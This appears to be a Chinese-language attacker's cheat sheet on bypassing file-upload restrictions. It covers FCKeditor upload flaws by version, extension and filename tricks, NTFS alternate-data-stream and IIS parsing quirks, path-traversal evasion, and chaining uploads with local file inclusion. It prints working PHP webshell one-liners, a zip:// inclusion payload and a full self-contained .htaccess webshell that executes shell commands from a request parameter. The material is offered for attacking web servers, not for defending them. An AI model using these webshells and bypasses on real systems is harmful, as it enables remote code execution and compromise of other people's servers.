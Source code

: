 



0x00 fckeditor上传漏洞总结
http://sec.chinabyte.com/206/13708206.shtml
http://www.cnbraid.com/2015/07/09/fckeditor/
http://www.it610.com/article/1842939.htm
http://secureyes.net/nw/assets/File-Upload-Vulnerability-in-FCKEditor.pdf <=2.6.4
0x01 asp
<=2.6.4
    http://secureyes.net/nw/assets/File-Upload-Vulnerability-in-FCKEditor.pdf
2.6.6
    http://www.hack80.com/thread-320-1-1.html
    http://www.qhwins.com/ShowNews/?11-20109214030542523.html
2.6.8
    http://www.freebuf.com/vuls/6408.html
0x02 php
<=2.6.4
    http://secureyes.net/nw/assets/File-Upload-Vulnerability-in-FCKEditor.pdf
0x03 fckeditor经典尝试后缀
1>将后缀改成.php.pjpg
2>将后缀改成.html
3>将后缀改成.lnk
4>将后缀改成.inc
5>将后缀改成.phps
0x04 其它上传技巧
0>其他关于上传技巧的汇总
    https://www.lshack.cn/?p=152

1>上传时,延迟一下再上传,有时能bypass admin,用到firefox tamper插件
    https://www.youtube.com/watch?v=ndeYnMoFPx8
    管理员登录绕过
        https://www.youtube.com/watch?v=UO-vzWFctTA
        https://www.youtube.com/watch?v=a5fm629s8Ao
            firefox noredirect插件
2>双文件上传
3>上传以图片后缀名为后缀的压缩文件,文件实际是一个webshell.php文件的压缩文件(zip),利用lfi漏洞并将lfi要包含
  的文件的参数赋值为:
    zip://archive.zip#webshell.php
    或
    zip://archive.zip#webshell.php&param1=system&param2=ls   ===>这里对应webshell.php为:
        <?php $_GET['param1']($_GET['param2']);?>
  这里适用的情况为:
    a>可上传任意内容文件(通过修改Content-Type等达到目的),但文件会被重命令为以png为后缀文件
    b>找到了lfi漏洞,但是lfi漏洞不能包函.|./|..|..\|...等情况
  更多细节:
    https://www.securusglobal.com/community/2016/08/19/abusing-php-wrappers/
4>上传图片被resize等修改时,绕过方法: 
    a)利用上传前和上传后的文件对比找出没有变化的字符串,将其写payload
        http://www.freebuf.com/articles/web/54086.html
    b)老外的方法,比a)中的要好
        https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
    用法:x.php?0=system post data:1=whoami,上面链接中的payload见如下phppayload
    c)上面b中的条件限制为png且大小为32x32,jpg绕过方法
        http://www.blogs8.cn/posts/WiA3bxU
phppayload phppayload_bak_link

5>https://www.nds.rub.de/media/attachments/files/2012/11/File-in-the-hole.pdf
    多种上传技巧:
    a)将.htaccess本身作为webshell,解析本身.htaccess作为php
        http://www.justanotherhacker.com/2011/05/htaccess-based-attacks.html
        -----------------------自解析.htaccess--------------------------------
        # Self contained .htaccess web shell - Part of the htshell project
        # Written by Wireghoul - http://www.justanotherhacker.com

        # Override default deny rule to make .htaccess file accessible over web
        <Files ~ "^\.ht">
        Order allow,deny
        Allow from all
        </Files>

        # Make .htaccess file be interpreted as php file. This occur after apache has interpreted
        # the apache directoves from the .htaccess file
        AddType application/x-httpd-php .htaccess

        ###### SHELL ###### <?php echo "\n";passthru($_GET['c']." 2>&1"); ?>###### LLEHS ######
        -----------------------自解析.htaccess--------------------------------

    b)NTFS ADS
        1."file.asp::$data"=="file.asp"
        2."/folder:$i30:$Index_allocation"=="/folder"
        3.".htaccess:.jpg" -> make empty ".htaccess"=="HTACCESS~1"
            适用于.htaccess不让上传情况下,估计一般情况下都不让上传隐藏文件,这时通过burp将文件名名改成
            .htaccess:.jpg则可上传.htaccess文件
        4.通过文件上传来创建文件夹(windows下)
            https://www.youtube.com/v/Ws2JrZG679Q?version=3&hl=en_US&rel=0&vq=hd720
            detail:将文件名通过burp改成file::$Index_Allocation或者是file:$I30:$Index_Allocation,这样就会在服务器上新建file文件夹
    c)绕过../和..\保护:
        https://www.youtube.com/v/HjS6Pob5t34?version=3&hl=en_US&rel=0&vq=hd720
        ../改成.. /(..%20/)
        ..\改成.. \(..%20\)
    d)iis:
        file.asp;.jpg以asp解析
        /folder.asp/file.txt以asp解析
    e)文件名后有被忽略字符
        "test.asp . .. ." == "test.asp" 
        "test.php<>" == "test.php"
    f)在图片文件的文件属性中添加copyright属性为:
        <?=$_GET[0]($_POST[1]);?>
        这个暂时没有找到工具,好像要用photoshop
    g)"file.p.phphp"==>"file.php" 
    h)配置有误情况下:
        "/file.jpg/index.php"会将file.jpg按照php解析
    i)常见content-type"白名单":
        image/gif
        image/jpeg
        image/pjpeg

6.上传.user.ini文件来解析图片或隐藏webshell[除.htaccess外的方法]
    https://ha.cker.in/1097.seo

7.上传绕过waf
    https://github.com/3xp10it/sectec/blob/master/%E4%B8%8A%E4%BC%A0%E7%BB%95%E8%BF%87waf.pdf

8.对图片长宽有要求的尝试突破上传方法
    https://forum.90sec.org/forum.php?mod=viewthread&tid=10503&extra=page%3D1



## 资料

fckeditor各版本绕过

http://3xp10it.cc/web/2016/08/12/fckeditor%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87/